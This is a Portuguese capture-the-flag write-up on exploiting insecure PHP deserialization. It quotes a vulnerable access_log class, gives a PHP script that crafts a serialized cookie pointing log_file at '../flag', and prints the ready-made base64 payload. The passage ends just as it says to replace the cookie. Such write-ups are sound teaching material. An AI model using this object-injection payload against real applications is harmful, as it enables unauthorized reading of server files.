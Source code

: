 Em `authentication.phps` havia a classe `access_log` cuja propriedade `log_file` é usada para ler/escrever logs, e o arquivo é lido `via __toString()`:

```bash
 class access_log
{
	public $log_file;

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}
````
Fluxo crítico:

- O servidor desserializa um objeto enviado pelo cookie.

- Se o objeto indicar admin, `authentication.php` instancia `access_log` e, ao converter o objeto para string, lê o arquivo apontado por `log_file`.

Como o servidor aceita objetos serializados vindos do cliente sem validar a classe/atributos, basta enviar um objeto que, quando desserializado, possua `log_file = "../flag"`. Dessa forma, ao usar `access_log`, o código lê e retorna o conteúdo de `../flag`.

Portanto, foi criado um código php para gerar o valor desse cookie:

```bash
<?php
class access_log {
    public $log_file;
}
 
$obj = new access_log();
$obj->log_file = "../flag";
 
// Gerar cookie pronto
$cookie = urlencode(base64_encode(serialize($obj)));
echo $cookie;
?>
<?php
```
<img width="1354" height="687" alt="image" src="https://github.com/user-attachments/assets/13109cfb-4dde-4fa9-bbe2-c73df4498d83" />

Ao rodar em um compilador online, foi gerado o seguinte valor:

```bash
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```
Logo, inspecione a página e alterar o valor do cookie: 
